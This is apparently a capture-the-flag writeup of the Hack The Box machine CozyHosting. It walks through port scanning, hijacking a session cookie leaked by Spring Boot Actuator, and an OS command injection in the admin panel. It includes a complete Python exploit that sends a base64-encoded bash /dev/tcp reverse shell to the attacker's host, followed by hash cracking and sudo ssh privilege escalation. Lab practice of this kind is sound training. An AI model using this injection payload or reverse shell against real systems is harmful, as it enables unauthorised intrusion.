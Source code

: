 ```yaml
---
title: "CozyHosting HTB Writeup"
date: 2023-09-10 00:00:00 +0800
categories: [HTB Writeup]
tags: [Writeup]
---
```


Machine: CozyHosting
IP: 10.10.11.230
Difficult: Easy

![img-description](/assets/img/cozyhostinghtb.jpeg)
_CozyHosting_

CozyHosting is an easy htb machine which has an information leak, and then we access a container through an OS command injection, to escalate privileges, we abuse an ssh vulnerability using gtfobins

# Enumeration
# Port Scanning & Service Detection
```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.230 -oG allports 

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2023-09-10 22:48 -04
Initiating SYN Stealth Scan at 22:48
Scanning 10.10.11.230 [65535 ports]
Discovered open port 80/tcp on 10.10.11.230
Discovered open port 22/tcp on 10.10.11.230
Nmap scan report for 10.10.11.230
Host is up, received user-set (7.9s latency).
Scanned at 2023-09-10 22:48:12 -04 for 39s
Not shown: 64465 filtered tcp ports (no-response), 1068 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 39.26 seconds
           Raw packets sent: 131002 (5.764MB) | Rcvd: 31758 (1.270MB)
```

The open ports for this machine are: 22 -> SSH & 80 -> HTTP

now let's look at the services

```bash
nmap -sCV -p22,80 10.10.11.230 -oN scan
Starting Nmap 7.92 ( https://nmap.org ) at 2023-09-10 23:53 -04
Nmap scan report for 10.10.11.230
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

first of all let's add: cozyhosting.htb to /etc/hosts, It seems that this is the main page:
![img-description](/assets/img/cozyimages.png)
_Main Page_

# Web Enum
Now let's use brute force to discover directories, using dirsearch or any other tool focused on this

```bash
dirsearch -u http://cozyhosting.htb/

[10:13:00] 200 -  634B  - /actuator                                         
[10:13:00] 200 -   15B  - /actuator/health                                  
[10:13:00] 200 -   10KB - /actuator/mappings                                
[10:13:01] 200 -    5KB - /actuator/env                                     
[10:13:01] 200 -   95B  - /actuator/sessions                                
[10:13:03] 200 -  124KB - /actuator/beans   

```

actuator?... investigating, I found the following: Spring Boot Actuator is a sub-project of the Spring Boot Framework. It includes a number of additional features that help us to monitor and manage the Spring Boot application. It contains the actuator endpoints (the place where the resources live).

If we go to this route: http://cozyhosting.htb/actuator/sessions
We can see that there is a kanderson user, with a session cookie
Looking at our cookies, there is a **JSESSIONID**, we change it to that of the user kanderson and we go to: http://cozyhosting.htb/admin
and we access the administration panel


![img-description](/assets/img/admincozy.png)
_Dashboard_

Below we see some fields, so the service seems to connect to an ssh server, providing the host and user

![img-description](/assets/img/ssh.png)
_SSH Cozy service_


# Explotation
By listing these forms we realize many things:

1) does not allow whitespace
2) if we place a ";" in the user field or "|" It takes us to a 404 not found route, and with a message **command not found**, as if a command were being executed from a terminal

Therefore, the user field is vulnerable to: **OS Command Injection**, we know that we cannot use spaces, so below I created a python script to automate this process and thus obtain access to the server


```python
# IMPORTS #
import requests
import json
import sys
import subprocess

# Config Target
URL = "http://cozyhosting.htb"
headers = {'Content-Type':'application/vnd.spring-boot.actuator.v3+json'}

# lhost - lport
if len(sys.argv) != 3:
    print('[!] Usage: %s host port' % (sys.argv[0]))
    print('[*] Example: ./autopwn.py 10.10.12.14 443\n')

lhost = sys.argv[1]
lport = sys.argv[2]

# create payload

# 1) encode in base64
proc=subprocess.Popen([f"echo '/bin/bash -i >& /dev/tcp/{lhost}/{lport} 0>&1' | base64"],stdout=subprocess.PIPE,shell=True)
out, _ = proc.communicate()
result = out.decode().strip()

# 2) generate shell payload
payload=";$(echo${IFS}%s${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}/bin/bash${IFS})" % (result)


def getAdminDashboard():
    # url for get session
    session_url = URL + "/actuator/sessions"
    r = requests.get(session_url,headers=headers)
    data = r.json()

    # loop on each value
    desired_value = 'kanderson'
    key = None

    for k,v in data.items():
        if v == desired_value:
           key = k
           break
    return key


def getShell():
    session = getAdminDashboard()

    new_url = URL + "/executessh"

    # Cookie to access at dashboard
    cookies = {
            'JSESSIONID':session
    }

    # payload data
    data = {
            'host': '127.0.0.1',
            'username': payload
    }

    request = requests.post(new_url,cookies=cookies,data=data)

if __name__ == "__main__":
    print('[!] Befote execute this script start a listener with netcat')
    print('[*] Example: nc -nlvp 443')
    print('[*] Getting Shell ...')
    getShell()
```

so we listen on the port that you specify to the script and booom we get a reverse shell


![img-description](/assets/img/revshell.png)
_Getting Reverse Shell_

# Privilige Escalation -> (josh)
we decompress it using: unzip cloudhosting-0.0.1.jar
After unzipping the file, find the username and password to connect through postgress

psql -h victim_ip -U postgres -d cozyhosting

```sql
    \dt
    Displayed the columns of the users table:
    
    \d users
    This revealed the name and password columns. I queried those columns:

    SELECT name,password FROM users;

    we get:

    kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
    admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

**Cracking Usin john**

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

and we get the password so we connect via ssh with the user josh

# Privilege Escalation -> (root)
```bash
sudo -l
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Checking GTFOBins, I found I could escalate privileges with:

![img-description](/assets/img/root.png)
_Rooted_

Boom **rooted**!!!



